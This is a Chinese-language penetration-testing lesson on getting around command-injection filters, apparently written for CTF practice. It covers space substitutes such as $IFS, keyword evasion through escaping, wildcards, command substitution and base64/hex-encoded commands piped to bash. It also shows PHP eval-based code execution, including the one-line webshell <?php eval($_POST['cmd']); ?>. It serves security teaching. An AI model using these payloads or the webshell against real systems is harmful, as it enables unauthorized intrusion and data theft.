










# 护网行动红蓝攻防教程：P54：06_Bypass







在本节课中，我们将学习如何绕过常见的命令执行过滤机制。当系统对某些命令、参数或字符进行限制时，掌握绕过技巧是渗透测试和应急响应中的关键能力。



## 绕过空格过滤

上一节我们介绍了基础的命令执行，但在实际场景中，系统通常会过滤空格等特殊字符。本节中我们来看看当空格被禁用时，有哪些替代方案。

假设我们需要执行 `cat flag.php`，但空格被过滤。以下是几种绕过空格过滤的方法：

*   **使用 `$IFS` 变量**：在Linux中，`$IFS` 是内部字段分隔符，通常包含空格、制表符和换行符。我们可以用它来替代空格。但直接使用 `cat$IFSflag.php` 会导致解析错误，因为系统无法区分变量名和后续字符。正确的用法是将其用花括号或引号包裹，或与其他字符结合。
    *   **代码示例**：
        ```bash
        cat${IFS}flag.php
        cat$IFS$9flag.php  # $9是一个通常为空的参数，用于分隔
        cat"$IFS"flag.php
        ```
*   **使用重定向符号 `<`**：`<` 符号可以将文件内容作为标准输入传递给命令，从而绕过对空格的依赖。
    *   **代码示例**：
        ```bash
        cat<flag.php
        ```
*   **使用制表符（Tab）**：在某些上下文中，URL编码的制表符 `%09` 可以替代空格。
    *   **代码示例**：
        ```bash
        cat%09flag.php
        ```



## 绕过关键字过滤

除了空格，系统还可能过滤特定的命令或文件名关键字，如 `cat` 或 `flag`。接下来我们探讨如何绕过这类过滤。

以下是几种绕过关键字过滤的策略：

*   **使用反斜杠转义**：在关键字字符间插入反斜杠 `\`。由于反斜杠是转义符，而字母本身不需要转义，所以命令功能不变，但可能绕过简单的字符串匹配过滤。
    *   **代码示例**：
        ```bash
        c\a\t f\l\a\g.php
        ```
*   **利用字符串拼接思想**：将关键字拆分成多个部分，然后通过某种方式组合起来执行。这类似于编程中的字符串拼接。
    *   **变量拼接**：先定义变量，再进行拼接。
        *   **代码示例**：
            ```bash
            a=fl; b=ag; cat $a$b.php
            ```
    *   **利用单引号拼接（类Python思想）**：在某些Shell环境中，连续的字符串（即使被单引号分隔）可能会被连接起来。但需注意，这并非Bash的通用特性，在某些特定题目或环境下可能有效。
*   **使用通配符**：利用 `*`（匹配任意长度字符）和 `?`（匹配单个字符）等通配符来匹配被过滤的关键字或文件名。
    *   **代码示例**：
        ```bash
        cat fl*  # 匹配以fl开头的文件
        cat fl?g.php  # 匹配类似flag.php的文件，但?代表一个字符
        cat fl[a-z]g.php  # 匹配fl后接a到z之间一个字母，再接g.php的文件
        ```
*   **使用内联执行**：将一个命令的输出结果作为另一个命令的参数。这可以用于动态生成被过滤的关键字。
    *   **使用反引号 `` `command` ``**：
        *   **代码示例**：
            ```bash
            cat `ls | grep flag`  # 先执行ls和grep找到flag文件，再将结果传给cat
            ```
    *   **使用 `$(command)`**（功能与反引号相同，但更推荐）：
        *   **代码示例**：
            ```bash
            cat $(ls | grep flag)
            ```
*   **编码绕过**：先将命令进行Base64或Hex编码，然后在执行时解码。
    *   **Base64编码示例**：
        ```bash
        echo 'Y2F0IGZsYWcucGhw' | base64 -d | bash  # 解码后执行 `cat flag.php`
        ```
    *   **Hex编码示例**：
        ```bash
        echo '63617420666c61672e706870' | xxd -r -p | bash  # 解码后执行 `cat flag.php`
        ```



## 从命令执行到代码执行

命令执行通常针对系统Shell命令。在Web安全中，还存在一种更贴近应用层的漏洞：代码执行漏洞。它允许攻击者执行服务器端的应用程序代码（如PHP、Python代码）。



**核心概念**：代码执行漏洞通常发生在应用程序将用户输入的数据直接当作代码来执行的时候。

一个典型的例子是PHP的 `eval()` 函数。该函数会将其接收的字符串参数当作PHP代码来执行。



**公式/代码描述**：
```php
eval($some_string); // 如果 $some_string 可控，则存在安全风险
```

著名的“一句话木马”就是利用了这个原理：
```php
<?php eval($_POST['cmd']); ?>
```
在这段代码中，`$_POST[‘cmd’]` 是用户可控的输入。攻击者可以通过向 `cmd` 参数传递精心构造的PHP代码字符串，让 `eval()` 函数执行，从而实现任意代码执行，例如列目录、读文件、写文件等。各类Webshell管理工具（如“中国菜刀”）就是自动化地生成并发送这些代码字符串。



因此，如果发现应用中有类似 `eval()`、`assert()`（在特定PHP版本中）或 `system()`（虽然更接近命令执行）等函数，且其参数完全或部分可控，就可能存在代码执行漏洞。

## 总结

本节课中我们一起学习了Web攻防中关键的绕过技术。
*   我们首先探讨了**绕过空格过滤**的多种方法，包括使用 `$IFS` 变量、重定向符和制表符。
*   接着，我们深入研究了**绕过关键字过滤**的技巧，如反斜杠转义、字符串拼接、使用通配符、内联执行和编码绕过。
*   最后，我们将视角从操作系统命令提升到应用层，引入了**代码执行漏洞**的概念，并以PHP的 `eval()` 函数为例，解释了其原理和危害，这通常是Webshell能够工作的基础。



掌握这些绕过技巧对于理解现代CTF题目、进行渗透测试和应急响应分析都至关重要。建议结合“高血压CTF2019”等题目进行实践练习，以巩固所学知识。